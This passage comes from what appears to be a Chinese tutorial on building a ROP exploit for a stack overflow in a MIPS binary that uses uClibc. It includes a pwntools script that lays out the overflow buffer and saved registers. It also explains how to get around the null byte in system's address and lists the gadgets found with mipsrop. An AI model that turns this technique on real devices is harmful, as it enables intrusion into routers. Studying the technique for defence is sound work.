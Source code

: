 所以我们的通用的一个脚本如下content.py：

```
from pwn import *
context.arch = 'mips'
context.endian = 'little'
data = "a"*1003
data += "aaaa" #s0
data += "bbbb" #s1
data += "cccc" #s2
data += "dddd" #s3
data += "eeee" #s4
data += "ffff" #s5
data += "gggg" #s6
data += "hhhh" #s7
data += "iiii" #gp
data += "jjjj" #ra
f=open("content","wb")
f.write(data)
f.close()
```

在相应寄存器的位置填入我们的gadget，接下来，我将用两种方式来编写我们的exp。

一:采用《0day》这本书中的方式，调用system函数，然后通过rop填入参数即可。这个里面有一个技巧就是`system`的地址为`0x53200`，出现了`x00`字符，所以我们采用书上的先对这个地址减一，也就是我们传入一个减一的值，后面调用gadget对这个值加一，并且将寄存器`a0`的值弄成我们想要执行的命令就可以。

1.寻找gadget。

在这里，我们将`lib/libuClibc-0.9.30.1.so`放入IDA中来寻找gadget，因为`libc.so.0`是他的链接。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t017d47993ddd231775.png)

接下来，显示寻找“+1”的gadget，通过`mipsrop.find("addiu $s0,1")`,找到第一个gadget

```
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x000158C8  |  addiu $s0,1                                         |  jalr  $s5                             |
```

然后我们看一下`0x158c8`处的代码，如下：

```
.text:000158C8                 move    $t9, $s5
.text:000158CC                 jalr    $t9
.text:000158D0                 addiu   $s0, 1
```

是通过寄存器`$s5`来进行下一个跳转的，加下来就是找一个设置寄存器`$a0`的gadget，也就是通过这个gadget来设置`system`的参数。我们通过`mipsrop.stackfinder()`来找一个。
